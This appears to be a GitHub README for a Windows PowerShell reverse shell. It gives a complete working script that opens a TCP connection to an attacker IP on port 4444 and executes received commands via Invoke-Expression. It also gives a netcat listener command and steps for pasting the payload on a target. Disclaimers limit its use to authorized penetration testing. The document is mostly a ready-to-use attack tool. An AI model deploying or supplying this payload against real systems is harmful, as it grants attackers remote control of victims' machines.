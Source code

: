 ### **Direct Reverse Shell Setup**

## **Overview**
This document provides instructions for setting up and using a **Windows Reverse Shell** to connect from a target Windows machine back to an attacker's machine. The reverse shell allows an attacker to remotely execute commands on the target system by initiating a connection from the target to the attacker’s listener.

### **Important Disclaimer**
This tool is intended for ethical penetration testing, security research, or authorized security assessments only. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.

---
## **Requirements**
### **Attacker Machine**
1. **Netcat** or any other listener for receiving connections from the target system.
   - Use `nc` (Netcat) to listen for incoming connections:
     ```shell
     nc -lvnp 4444
     ```

2. **PowerShell** (on the target machine):
   - The script uses PowerShell to execute commands on the target system.

### **Target Machine (Windows)**
- Windows PowerShell, which is available on most modern versions of Windows.
  
## **Payload Script Explanation**

### **PowerShell Reverse Shell Script:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.1.6', 4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | % { 0 };
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
};
$client.Close();
```

### **Explanation:**
1. **TCP Connection**: The reverse shell creates a TCP connection to the attacker's machine using the specified IP (`10.10.1.6`) and port (`4444`).
2. **Data Stream**: Once connected, it listens for commands and executes them using `iex` (Invoke-Expression).
3. **Command Output**: The result of each command is sent back to the attacker, and this process continues until the connection is closed.

---

## **Setup Instructions**

### **Step 1: Set Up Listener on Attacker Machine**
On your Kali (attacker) machine, open a terminal and start a listener to receive the incoming reverse shell connection:
```bash
nc -lvnp 4444
```
This will start Netcat on port `4444`, listening for incoming connections from the target machine.

### **Step 2: Deliver the Payload to Target Machine**
 **Manual Execution**: 
   You can manually execute the script on the target machine by copying and pasting it into a PowerShell window.
   
---

## **Legal Disclaimer**

This tool is intended for use only in authorized penetration tests, security assessments, or other lawful security-related activities. Unauthorized access to computers and networks is illegal and unethical. Always obtain explicit written permission before using this tool on any system that you do not own or have authorization to test.

